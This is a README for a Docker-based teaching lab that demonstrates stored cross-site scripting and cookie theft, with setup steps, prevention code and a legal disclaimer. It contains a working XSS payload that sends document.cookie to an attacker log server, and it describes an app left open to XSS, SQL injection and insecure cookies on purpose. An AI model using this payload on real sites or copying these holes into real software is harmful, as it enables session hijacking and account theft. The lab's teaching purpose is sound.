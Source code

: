 # XSS Cookie Stealing Lab

A educational security lab demonstrating Cross-Site Scripting (XSS) vulnerability and cookie stealing. 
**For educational purposes only - do not use on real websites!**

## Prerequisites

- Docker
- Docker Compose
- Git

## Setup Instructions

1. Clone the repository:
   ```bash
   git clone https://github.com/Amir-Mohseni/XSS-Attack.git
   cd XSS-Attack/xss-lab
   ```

2. Build and start the containers:
   ```bash
   docker-compose up --build
   ```

3. Wait about 30 seconds for MySQL to initialize fully.

4. Access the applications:
   - Vulnerable App: http://localhost:8080
   - Attacker's Log: http://localhost:8081/logs.php

## Testing the XSS Vulnerability

1. Open the vulnerable application (http://localhost:8080)

2. Add a comment with the following XSS payload:
   ```html
   <script>
   new Image().src = "http://localhost:8081/steal.php?cookie=" + encodeURIComponent(document.cookie);
   </script>
   ```

3. The comment will be stored and the script will execute whenever anyone views the page

4. View stolen cookies at http://localhost:8081/logs.php

## Project Structure
```
xss-lab/
├── docker-compose.yml
├── vulnerable-app/
│   ├── Dockerfile
│   └── src/
│       ├── index.php
│       ├── comments.php
│       ├── style.css
│       └── db.php
└── attacker-server/
    ├── Dockerfile
    └── src/
        ├── steal.php
        └── logs.php
```

## How It Works

1. The vulnerable application stores user comments without sanitizing input
2. When a malicious script is posted as a comment, it gets stored in the database
3. When any user views the comments page, their browser executes the stored script
4. The script sends the user's cookies to the attacker server
5. The attacker server logs these stolen cookies

## Security Vulnerabilities Demonstrated

This lab demonstrates several common web vulnerabilities:

1. **Stored XSS**: User input is stored without sanitization
2. **SQL Injection**: Direct concatenation of user input in SQL queries
3. **Insecure Cookies**: Cookies set without HttpOnly flag
4. **Missing CSRF Protection**: No CSRF tokens implemented

## Prevention Measures

In a real application, you should:

1. Sanitize user input:
```php
$content = htmlspecialchars($_POST['content'], ENT_QUOTES, 'UTF-8');
```

2. Use prepared statements:
```php
$stmt = $mysqli->prepare("INSERT INTO comments (author, content) VALUES (?, ?)");
$stmt->bind_param("ss", $author, $content);
$stmt->execute();
```

3. Set secure cookie flags:
```php
setcookie('user_session', $value, [
    'expires' => time() + 3600,
    'path' => '/',
    'secure' => true,
    'httponly' => true,
    'samesite' => 'Strict'
]);
```

4. Implement Content Security Policy (CSP):
```php
header("Content-Security-Policy: default-src 'self'; script-src 'self'");
```

## Troubleshooting

If you encounter database connection issues:

1. Stop all containers:
   ```bash
   docker-compose down
   ```

2. Remove existing volumes:
   ```bash
   docker-compose down -v
   ```

3. Rebuild and start:
   ```bash
   docker-compose up --build
   ```

### Common Issues

1. **Database Connection Fails**
   - Ensure all containers are running: `docker ps`
   - Check logs: `docker-compose logs db`
   - Try restarting with clean volumes (see above)

2. **Pages Not Loading**
   - Verify all ports are available (8080 and 8081)
   - Check container logs: `docker-compose logs vulnerable-app`

3. **Cookie Stealing Not Working**
   - Ensure both applications are accessible
   - Check browser console for JavaScript errors
   - Verify the attacker server has write permissions for logs

## Legal Disclaimer

This project is for educational purposes only. Using these techniques against real websites without explicit permission is illegal and unethical. Always:

- Practice in controlled environments only
- Get written permission before testing security
- Follow responsible disclosure practices
- Respect privacy and data protection laws

## License

This project is released under the MIT License. Use it responsibly. 